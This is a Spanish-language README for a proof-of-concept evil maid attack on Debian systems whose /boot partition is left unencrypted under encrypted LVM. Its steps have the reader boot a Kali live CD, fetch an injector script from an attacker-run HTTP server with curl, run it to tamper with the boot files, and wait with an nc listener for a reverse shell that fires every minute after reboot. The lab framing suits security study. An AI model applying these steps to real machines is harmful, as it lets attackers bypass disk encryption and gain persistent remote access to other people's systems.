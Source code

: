 # EvilMaid en Linux

POC para ejecutar un ataque evil maid a un sistema con Debian en el archivo init.

No es necesario guardar contraseñas, ni engañar al usuario.
Esto es posible dado que si se instala el sistema con "Encrypted LVM" no se encripta la partición de /boot

## Requisitos

- Un USB o archivo de disco con una distribución de Linux en LiveCD como Kali.
- Un sistema que puedas encriptar normalmente el disco y que no encripte /boot,
  ejemplo Debian con la opción de "Guided installation with encrypted LVM"
- vMWare Fusion, VirtualBox, UTM o cualquier virtualizador si se desea hacer un lab.

## Pasos

1. Instalar Debian con la opción de "Guided installation with encrypted LVM".
   En este caso utilice https://cdimage.debian.org/mirror/cdimage/archive/11.1.0/arm64/iso-cd/
   lo utilice en arm64 porque se realizo en una computadora con Apple Silicon.
2. Descargar y flashear el LiveCD de Kali Linux en un USB o dejar el disco en la computadora si se virtualiza.
   Kali: https://www.kali.org/get-kali/#kali-live
   Flasheo: https://etcher.balena.io/
3. Después de haber configurado Debian, apagar y bootear desde Kali,
   mediante la asignación del iso de Kali en el CD/DVD de vMWare Fusion.
   Iniciar desde firmware el VM y bootear desde el CD.
4. Pasar él `em_shell_injector.sh` desde alguna computadora o servidor web hacia el live cd

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde el Live CD
curl http://IP/em_shell_injector.sh -o em_shell_injector.sh
```

5. Ejecutar el script en el Live CD de Kali

```
chmod +x em_shell_injector.sh
./em_shell_injector.sh
```

6. Abrir un puerto en la máquina atacante para recibir el reverse shell

```
nc -lv 4242
```

7. Bootear nuevamente la VM y entrar normalmente.
   Debera ejecutarse el script cada minuto
   y el reverse shell debería haberse realizado.

Referencias:
- https://debugging.works/blog/evil-maid-attack/
- https://www.cron.dk/evil-maid-encrypt-your-harddrive/
- https://github.com/x821938/Evil-Maid-POC
- https://github.com/AonCyberLabs/EvilAbigail
- https://github.com/robertchrk/evilmaid
- https://github.com/kmille/evil-maid-attack-on-encrypted-boot
- https://twopointfouristan.wordpress.com/2011/04/17/pwning-past-whole-disk-encryption/
- https://www.wzdftpd.net/blog/implementing-the-evil-maid-attack-on-linux-with-luks.html
- https://debugging.works/blog/your-fde-is-useless/
- https://github.com/curtishoughton/Penetration-Testing-Cheat-Sheet/blob/master/File-Transfer/readme.md
- https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/